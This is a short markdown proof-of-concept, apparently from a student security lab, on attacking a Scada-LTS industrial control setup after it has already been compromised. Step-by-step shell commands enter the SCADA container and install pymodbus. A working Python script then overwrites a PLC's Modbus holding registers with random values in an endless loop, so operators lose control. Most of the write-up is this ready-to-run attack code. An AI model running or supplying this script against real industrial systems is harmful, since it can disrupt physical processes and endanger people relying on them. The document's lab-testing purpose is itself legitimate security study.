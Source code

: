 # Change Modbus Registers Proof of Concept Vulnerability

After the ScadaLTS enviroment has been exploited and access has been granted over the system to the malicious entity, then the following steps can be taken to perform a modbus change exploit.

Step 1: Connect to the server.
```
ssh mcsestudent@145.52.126.50 -p 22 -L 8081:localhost:8081 -L 5601:localhost:5601 -L 80:localhost:80 -L 8082:localhost:8082 -L 8083:localhost:8083 -L 8084:localhost:8084 -L 8085:localhost:8085 -L 8086:localhost:8086 -L 9200:localhost:9200 -L 9600:localhost:9600 -L 2021:localhost:2021
```
Step 2: Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Step 3: Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

step 4: Run the code. There is no `nano` or `vim` but we can still write to a file with `echo 'some code' > test.py`
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

## End result

The registers should now start being overwritten with random data. This in turn makes it so that the modbus addresses cannot be used properly since they will keep changing from value even if the operator for example wants to change them by turning on a button. 

Figure 1: Modbus registers being continuously overwritten.

![](img/random_modbus.png)

Figure 2: ScadaLTS environment visibily showing values that are not in line with its use case.

![](img/scada_poc1.jpg)

Figure 3: In ScadaLTS the values now also seem to be changing in the data resources tab.

![](img/scada_poc2.jpg)

